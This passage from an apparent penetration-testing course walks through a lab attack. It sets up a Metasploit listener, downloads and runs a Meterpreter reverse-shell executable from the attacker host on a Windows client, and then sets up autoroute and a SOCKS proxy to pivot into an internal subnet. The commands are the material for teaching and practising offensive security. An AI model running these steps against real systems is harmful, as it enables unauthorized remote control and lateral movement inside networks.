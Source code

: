 > Listing 57 - Creating a Meterpreter reverse shell executable file

Now, let's start a *multi/handler* listener with the corresponding settings in Metasploit. In addition, we'll **set** the option **ExitOnSession** to **false**. It specifies that the listener stays active for new sessions without the need to restart it for every incoming session.

```
kali@kali:~/beyond$ sudo msfconsole -q

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.119.5
LHOST => 192.168.119.5

msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443

msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false

msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started HTTPS reverse handler on https://192.168.119.5:443
```

> Listing 58 - Starting Metasploit listener on port 443

Next, we can download and execute **met.exe** on CLIENTWK1.

```
PS C:\Users\marcus> iwr -uri http://192.168.119.5:8000/met.exe -Outfile met.exe

PS C:\Users\marcus> .\met.exe
```

> Listing 59 - Downloading and executing Meterpreter reverse shell

In Metasploit, a new session should appear:

```
[*] Meterpreter session 1 opened (192.168.119.5:443 -> 192.168.50.242:64234) at 2022-10-11 07:05:22 -0400
```

> Listing 60 - Incoming session in Metasploit

Once session 1 is opened, we can use **multi/manage/autoroute** and **auxiliary/server/socks\_proxy** to create a SOCKS5 proxy to access the internal network from our Kali box as we learned in the "The Metasploit Framework" Module.

```
msf6 exploit(multi/handler) > use multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set session 1
session => 1

msf6 post(multi/manage/autoroute) > run
[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against CLIENTWK1
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.6.0/255.255.255.0 from host's routing table.
[*] Post module execution completed

msf6 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy
```